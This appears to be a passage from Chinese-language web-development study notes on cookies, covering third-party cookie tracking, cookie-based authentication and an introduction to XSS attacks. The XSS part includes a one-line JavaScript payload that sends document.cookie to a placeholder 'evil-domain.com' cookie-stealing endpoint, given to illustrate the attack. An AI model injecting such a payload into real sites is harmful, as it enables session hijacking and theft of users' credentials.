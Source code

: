 当用户访问新站点 `other.com` 时，该站点依然引入了这个第三方站点的资源，此时会自动携带 `ads.com` 下的 cookie

<svg xmlns="http://www.w3.org/2000/svg" width="668" height="192" viewBox="0 0 668 192"><defs><style>@import url(https://fonts.googleapis.com/css?family=Open+Sans:bold,italic,bolditalic%7CPT+Mono);@font-face{font-family:'PT Mono';font-weight:700;font-style:normal;src:local('PT MonoBold'),url(/font/PTMonoBold.woff2) format('woff2'),url(/font/PTMonoBold.woff) format('woff'),url(/font/PTMonoBold.ttf) format('truetype')}</style></defs><g id="data-storage" fill="none" fill-rule="evenodd" stroke="none" stroke-width="1"><g id="cookie-third-party-3.svg"><path id="Rectangle-1" fill="#FBF2EC" stroke="#DBAF88" stroke-width="2" d="M38 48h282v99H38z"/><text id="&lt;img-src=&quot;https://ad" fill="#AF6E24" font-family="OpenSans-Regular, Open Sans" font-size="14" font-weight="normal"><tspan x="42" y="70">&lt;img src="https://ads.com/banner.png"&gt;</tspan></text><text id="other.com" fill="#AF6E24" font-family="OpenSans-Bold, Open Sans" font-size="14" font-weight="bold"><tspan x="144" y="36">other.com</tspan></text><path id="Rectangle-1-Copy" fill="#FBF2EC" stroke="#DBAF88" stroke-width="2" d="M505 48h140v99H505z"/><text id="ads.com" fill="#AF6E24" font-family="OpenSans-Bold, Open Sans" font-size="14" font-weight="bold"><tspan x="543" y="36">ads.com</tspan></text><path id="Line" fill="#C06334" fill-rule="nonzero" d="M321.643 67.375l.991.134 163.127 22.119.806-5.946L499.5 92.5l-14.814 5.055.806-5.945-163.126-22.12-.991-.133.268-1.982z"/><text id="GET-/banner.png" fill="#AF6E24" font-family="OpenSans-Regular, Open Sans" font-size="14" font-weight="normal" transform="rotate(7 416.568 68.382)"><tspan x="361.068" y="73.882">GET /banner.png</tspan></text><text id="cookie:-id=123" fill="#AF6E24" font-family="OpenSans-Regular, Open Sans" font-size="14" font-weight="normal" transform="rotate(7 410.08 93.2)"><tspan x="363.08" y="98.699">cookie: id=123</tspan></text><ellipse id="Oval-6" cx="176" cy="31.5" stroke="#C06334" stroke-width="2" rx="48" ry="13.5"/></g></g></svg>

即用户在不同网站之间的切换被  `ads.com` 所追踪，不同的浏览器对于第三方 Cookie 有不同的政策，用户也可以自己设置

如果页面中引入了第三方库，比如 `<script src="https://google-analytics.com/analytics.js">`，这个第三方库使用了 `document.cookie` 来设置了一个 cookie，这个 cookie 不算第三方 cookie

**If a script sets a cookie, then no matter where the script came from – the cookie belongs to the domain of the current webpage.**



#### 应用

本身的存储特性：一开始为了做一些客户端的存储，后来有了 WebStorage API 后，就不再用 cookie 作存储了

业务上：http 协议本身是无状态的，可以使用 cookie 的存储特性来做用户状态的管理（或者叫**鉴权**）。无论是哪种鉴权方式：服务端 session 或者将信息编码成 token，都可以用 cookie 来实现。



#### 攻击

**XSS 跨站点脚本**（Cross-site scripting）

攻击者通过某种方式向网页中注入恶意脚本（这个脚本可以是 js、CSS 或者其它可执行代码），当用户浏览网页时，嵌入的脚本就会执行，执行一些危险动作，比如读取 cookie，session，tokens，或者网站其他敏感的网站信息，对用户进行钓鱼欺诈等。[参考](https://www.cnblogs.com/54chensongxia/p/11643787.html)

```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

常见的 XSS 攻击方式为：[参考](https://zhuanlan.zhihu.com/p/22500730)

1. 恶意用户可以提交内容
2. 提交的内容可以显示在另一个用户的页面上
3. 这些内容未经**过滤**，直接**运行**在另一个用户的页面上
